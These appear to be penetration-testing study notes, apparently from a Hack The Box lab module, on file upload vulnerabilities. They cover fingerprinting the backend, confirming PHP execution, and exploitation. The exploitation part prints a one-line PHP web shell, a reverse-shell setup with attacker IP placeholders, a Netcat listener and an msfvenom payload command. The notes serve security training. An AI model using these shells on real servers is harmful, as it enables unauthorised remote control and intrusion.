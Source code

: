    - Testing common web extensions (e.g., `/index.php`) can help identify the technology.
   - Tools like **Burp Intruder** can automate this process by fuzzing extensions.
   - `Wappalyzer` browser extension helps identify the technologies in use on the site.

### 4. **Vulnerability Identification**
   - Once the backend language is identified, you can upload a file in the same language (e.g., a PHP script).
   - Testing with a basic PHP script like `<?php echo "Hello HTB"; ?>` helps confirm if the uploaded file can execute PHP code.
   - If the file is successfully uploaded and executed, the server is vulnerable to file upload exploitation.
   - Example test: Upload `test.php` and access the uploaded file. If the PHP code is executed, the server is vulnerable.

### 5. **Exploiting the Vulnerability**
   - After confirming file upload vulnerability, the next step is to exploit it for remote control of the server by uploading a malicious script.

## Exploitation Techniques

### Web Shells
   - Web shells are scripts that provide a way to interact with the backend server.
   - Examples include **phpbash**, a terminal-like PHP web shell, and others available in **SecLists**.
   - Upload the web shell through the vulnerable upload feature and access it via its link:
     ```
     http://SERVER_IP:PORT/uploads/phpbash.php
     ```
   - Custom Web Shell Example:
     ```php
     <?php system($_REQUEST['cmd']); ?>
     ```
     - Use the `?cmd=` parameter to execute commands (e.g., `?cmd=id`).
     - For browsers, use source-view (`Ctrl+U`) for better output formatting.

### Reverse Shells
   - Reverse shells allow the server to connect back to the attacker's machine, providing interactive control.
   - Tools like **pentestmonkey PHP reverse shell** or scripts from **SecLists** can be used.
   - Edit the script with your IP/PORT:
     ```php
     $ip = 'OUR_IP';     // CHANGE THIS
     $port = OUR_PORT;   // CHANGE THIS
     ```
   - Start a Netcat listener:
     ```
     nc -lvnp OUR_PORT
     ```
   - Upload the script and execute it via the web app:
     ```
     http://SERVER_IP:PORT/uploads/reverse.php
     ```
   - Example reverse shell generation with `msfvenom`:
     ```
     msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
     ```

